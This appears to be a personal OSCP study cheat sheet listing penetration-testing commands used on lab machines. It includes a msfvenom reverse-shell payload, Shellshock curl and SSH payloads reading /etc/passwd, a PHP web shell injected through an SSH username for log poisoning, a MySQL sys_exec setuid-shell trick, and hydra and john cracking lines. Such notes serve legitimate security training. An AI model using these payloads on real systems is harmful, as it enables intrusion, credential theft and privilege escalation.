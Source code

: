 ```yaml
---
title: OSCP Command
author: Yuchao
date: 2022-07-09 11:33:00 +0800
categories: [dev]
tags: [linux, oscp]
math: true
mermaid: true
---
```


# Commands
- ``` service smbd restart && dhclient eth0 ```
- ``` tcpdump -nnttttAr wireless.cap ```
- ``` tcpdump -nnttttAi lo ```
- ``` aircrack-ng -w wordlist.txt wireless.cap ```
- ``` netstat -antp ```
- ``` nmap -p- -A -T5 {IP} ```
- ``` dirb {IP} -u {usr}:{passwd} ```
- ``` zsteg -a suspicious.png ```
- ``` john --show --format=Raw-MD5 hashfile ```
- ``` ssh admin@{IP} -p6464 -t "bash --noprofile" ```
- https://ghidra-sre.org/
- ``` ssh-keygen ```
- ``` steghide extract -sf file.jpg ```
- ``` ls | sed s/\.jpg// ```
- ``` hydra -L wordlist -P wordlist {IP} ssh ```
- ``` rsmangler -m 6 -x 8 -r -d -e -i --punctuation -y -a -C --pna --nb --space --allow-duplicates -f wordlistOrigin -o newwordlist ```
- ``` history ```
- ``` msf> use windows/ftp/ftpshell_cli_bof ```
- ``` msf> session -i 1 ```
- ``` meterpreter> upload accesschk64.exe ```
- ``` meterpreter> shell ```
- ``` .\accesschk64.exe /accepteula -uwcqv ```
- ``` .\accesschk64.exe -uwqs Users c:\*.* ```
- ``` sc qc {service_name} ```
- ``` icacls "{service_path}" ```
- ``` tasklist /SVC ```
- ``` msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={IP} LPORT={port} -f exe -o file.exe ```
- ``` move a.exe b.exe ```
- ``` shutdown /r ```
- ``` meterpreter> run post/windows/manage/migrate ```
- ``` enum4linux {targetIP} ```
- ``` smbclient //{target_IP}/anonymous ```
- ``` smbclient //{target_IP}/helios -U helios ```
- ``` wpscan --url {url} --api-token {token} --enumerate p,u ```
- ``` cd /var/mail/user ```
- ``` telnet {IP} 25 ```
- ``` find / -uid 0 -perm -4000 -type f 2>/dev/null ```
- ``` john shadowfile --wordlist=/usr/share/wordlists/rockyou.txt ```
- ``` ./LinEnum.sh ```
- ``` ssh -L 8080:localhost:8080 aelus@192.168.56.156 ```
- ``` msf> set RHOSTS localhost ``` ssh tunnel
- ``` msf> set LHOST eth1 ``` ssh tunnel
- ``` msf> sessions -l ```
- ``` msf> sessions -i 1 ```
- ``` python -c 'import pty; pty' ```
- ``` sudo mysql -e '\! /bin/sh' ```
- ``` curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c cat '/etc/passwd' " http://{IP}/cgi-bin/underworld ```
- ``` curl -A () " {echo h;}; echo; bin/ls -l " http://{IP}/cgi-bin/test.cgi ```
- ``` scp pspy32 hades@{IP}:/home/hades ```
- ``` ssh '<?php system($_GET["cmd"]);  ?>'@{IP}  ``` to interfere /var/log/auth
- ``` netstat -antup ```
- ``` ss -tulpn ```
- ``` socat tcp-listen:9999,reuseaddr,fork tcp:localhost:8080 ```
- ``` search python flask jsonpickle exploit ```
- ``` $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "{password_hash}") ```
- ``` ldapsearch -h {host} -p {port} -b "dc=symfonos,dc=local" -w '{password}' -D "cn=admin,dc=symfonos,dc=locol" ```
- ``` apt-get install hexchat ```
- ``` msf> use auxiliary/scanner/smtp/smtp_enum ```
- ``` find /etc/ -maxdepth 1 -name *.conf -type f -exec ls -la {} \; 2>/dev/null ```
- ``` find /etc/ -maxdepth 1 -name *.conf -type f 2>/dev/null | xargs ls -al ```
- ``` update-alternatives --config java ```
- ``` lsb_release -a ```
- ``` uname -a ```
- ``` https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh ```
- ``` find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null ```
- ``` crackstaion.net ``` crack hash
- ``` cat /etc/sudoers ```
- ``` echo os.system('/bin/bash') ```
- ``` grep -Hn textpattern * 2>/dev/null ```
- ``` ps aux | grep mysql ```
- ``` mysql> use mysql ```, ``` mysql> select * from mysql.func; ```
- ``` mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') ```
- ``` hydra -L usernames -p {password} {IP} ssh -t1 ```
- ``` git clone https://github.com/lanjelot/patator.git ``` like hydra
- ``` fcrackzip -u -D -p wordlist file.zip ```
- ``` ssh -vv noob@{IP} -i noobkey ```
- ``` ssh noob@{IP} -i noobkey '() { :;}; echo SHELLSOCK' ```
- ``` ssh-keygen -b 2048 -t rsa ```
- ``` ./ssh/authorized_keys ```
- ``` find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null ```
